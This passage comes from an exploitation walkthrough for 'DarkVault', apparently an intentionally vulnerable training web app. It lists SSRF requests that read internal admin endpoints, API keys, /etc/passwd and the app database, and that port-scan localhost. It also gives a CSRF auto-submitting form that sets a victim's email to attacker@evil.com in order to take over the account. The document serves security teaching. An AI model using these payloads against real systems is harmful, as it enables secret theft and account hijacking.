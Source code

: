 2. Access the internal admin service on port 3001:
   ```
   GET /api/proxy?url=http://127.0.0.1:3001/admin-dashboard
   GET /api/proxy?url=http://127.0.0.1:3001/system-info
   GET /api/proxy?url=http://127.0.0.1:3001/api-keys
   ```
   These reveal additional secrets and system information.

3. Access local files using the file:// protocol:
   ```
   GET /api/proxy?url=file:///etc/passwd
   GET /api/proxy?url=file:///app/server.js
   GET /api/proxy?url=file:///app/bank.db
   ```
   This allows reading sensitive files from the local filesystem.

4. Port scan the local machine:
   ```
   GET /api/proxy?url=http://localhost:8080/
   GET /api/proxy?url=http://localhost:27017/
   ```
   This can identify other services running locally.

5. Leverage the gathered information for further attacks:
   - Use discovered JWT secrets to forge admin tokens
   - Use admin credentials to access protected endpoints
   - Extract database connection details for database attacks

## 8. CSRF Attack Chain

**Objective**: Perform actions on behalf of other users without their knowledge

### Discovery
1. Identify endpoints that don't implement CSRF protection
2. The email update endpoint is vulnerable:
   ```
   POST /api/update-email
   ```
3. No CSRF token is required when submitting the form

### Exploitation
1. Create an HTML page with an auto-submitting form:
   ```html
   <html>
   <body onload="document.forms[0].submit()">
     <form action="http://localhost:3000/api/update-email" method="POST">
       <input type="hidden" name="email" value="attacker@evil.com">
     </form>
   </body>
   </html>
   ```
2. Host this page on a server or send it directly to a victim
3. When they visit while logged in to DarkVault, their email will be changed without their knowledge
4. You can then perform a password reset using the new email address to take over their account
